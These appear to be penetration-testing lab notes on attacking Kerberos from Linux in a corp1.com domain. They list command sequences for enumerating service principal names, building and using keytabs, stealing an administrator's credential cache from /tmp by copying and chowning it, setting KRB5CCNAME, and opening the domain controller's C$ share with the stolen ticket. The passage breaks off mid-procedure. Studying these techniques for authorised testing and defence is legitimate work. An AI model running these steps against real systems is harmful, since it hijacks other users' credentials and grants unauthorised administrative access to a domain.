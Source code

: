 Tickets expire after a while, run <span style="color:red">kinit -R</span> to update them.

We can get a list of available Service Principal Names (SPN) from the domain controller using:
```shell
ldapsearch -Y GSSAPI -H ldap://<DC_domain> -D "Administrator@CORP1.COM" -W -b "dc=corp1,dc=com" "servicePrincipalName=*" servicePrincipalName
```

Interactive kerberos shell:
```shell
ktutil
```
I.E. (To add an entry to the keytab for the admin user and specify the encryptiopn type: <span style="color:red">addent -password -p administrator@CORP1.COM -k 1 -e rc4-hmac</span>, to then write it on file <span style="color:red">wkt /tmp/administrator.keytab</span>)

OUTPUT:
```
...
servicePrincipalName: MSSQLSvc/DC01.corp1.com:1433
servicePrincipalName: MSSQLSvc/DC01.corp1.com:SQLEXPRESS
servicePrincipalName: MSSQLSvc/appsrv01.corp1.com:1433
servicePrincipalName: MSSQLSvc/appsrv01.corp1.com:SQLEXPRESS
...
```
To request a ticket for a particular service (like the one above):
```shell
kvno MSSQLSvc/DC01.corp1.com:1433
```
Use klist again to check if you actiually have the ticket.
&nbsp;

---
&nbsp;
<span style="font-size: 18px; color:white"><b>Attacks</b></span>
<span style="font-size: 25px; color:white"><b>Stealing Keytab Files</b></span>
Keytab file: file that allows contain a Kerberos principal name and encryption keys to allow developers to use automated scripts without entering a password.
Commonly used in <span style="color:red">cron jobs</span> (/etc/crontab)

To use the file in a script run by the root user:
```shell
kinit administrator@CORP1.COM -k -t /tmp/administrator.keytab
```
(check that it's been loaded with <span style="color:red">klist</span>)

If well done, you'll be able to log as the user you added to the keytab file without using a password.
I.E. `smbclient -k -U "CORP1.COM\administrator" //DC01.CORP1.COM/C$`
&nbsp;
<span style="font-size: 15px; color:white"><b>Attacking using Credential Cache Files</b></span>
List the ccache files:
```shell
ls -al /tmp/krb5cc_*
```
Copy the administrator's ccache file and change :
```
sudo cp /tmp/krb5cc_607000500_3aeIA5 /tmp/krb5cc_minenow
sudo chown offsec:offsec /tmp/krb5cc_minenow
ls -al /tmp/krb5cc_minenow
```
Set the KRB5CCNAME env variable:
```shell
kdestroy
klist
export KRB5CCNAME=/tmp/krb5cc_minenow
klist
```
At this point we have the admin user's TGT and we can request a service ticket on its behalf: